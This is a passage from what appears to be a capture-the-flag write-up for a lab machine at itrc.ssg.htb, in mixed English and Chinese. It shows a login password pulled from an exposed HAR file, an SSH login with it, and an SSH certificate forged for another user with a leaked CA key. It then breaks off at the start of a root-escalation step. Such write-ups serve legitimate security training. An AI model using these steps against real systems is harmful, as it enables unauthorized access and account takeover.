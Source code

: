 ```
itrc.ssg.htb.har 是一个 HAR (HTTP Archive) 文件，它用于记录和分析网页与服务器之间的所有 HTTP 请求和响应。HAR 文件是一个 JSON 格式的日志，包含详细的网络通信数据，如请求头、响应头、请求和响应的内容、加载时间等.

```
So let's check it by using our browser.
`http://itrc.ssg.htb/uploads/itrc.ssg.htb.har`
Then we can find some useful things
```
"headersSize": 647,
          "bodySize": 37,
          "postData": {
            "mimeType": "application/x-www-form-urlencoded",
            "text": "user=msainristil&pass=82yards2closeit",
            "params": [
              {
                "name": "user",
                "value": "msainristil"
              },
              {
                "name": "pass",
                "value": "82yards2closeit"
              }
            ]
          }
        },
```
then we get the credit of msainristil
`msainristil:82yards2closeit`
let's try to use it and we found it could be ssh login.
Then we found a document of decommission_old_ca.
We have certificate authorization files. If you don’t know what they are, I suggest you to learn what they are before reading this article. They are simply being used for Signing&Authorizing keys. Now let’s create key and sign it with ca-itrc.
我们有证书授权文件。如果您不知道它们是什么，我建议您在阅读本文之前了解它们是什么。它们只是用于签名和授权密钥。现在让我们创建密钥并使用 ca-itrc 对其进行签名。
`ssh-keygen -t rsa -b 2048 -f keypair`
t stands for type, -b stands for bytes and -f stands for file. Creating rsa type 2048 bytes long and saving it to keypair. This will create keypair and keypair.pub files. Now we have to sign this with ca-itrc
t 代表类型，-b 代表字节，-f 代表文件。创建 2048 字节长的 rsa 类型并将其保存到密钥对。这将创建 keypair 和 keypair.pub 文件。现在我们必须使用 ca-itrc 对此进行签名
`ssh-keygen -s ca-itrc -n zzinter -I doesntmatter keypair.pub`

`scp msainristil@ssg.htb:/home/msainristil/decommission_old_ca/keypair* . 

Then just ssh to connect it and we can get user.txt

4, switch to root shell
Firstly, we have known we are in the docker container.

Back to the script sign_key_api.sh:
`This is an API for signing pubkeys. Notice how nmap scan did show us 2 ssh ports (22, and 2222). port 22 ssh works on docker, port 2222 should be working on host machine And I think this api works out of docker. Because there were no var/www/signserv directory. It will be easier to use this bash script in our own machine. So I’m downloading this to my kali machine.`
But in this machine, we did not find /var/www/signserv
So we guess it would in the root machine.
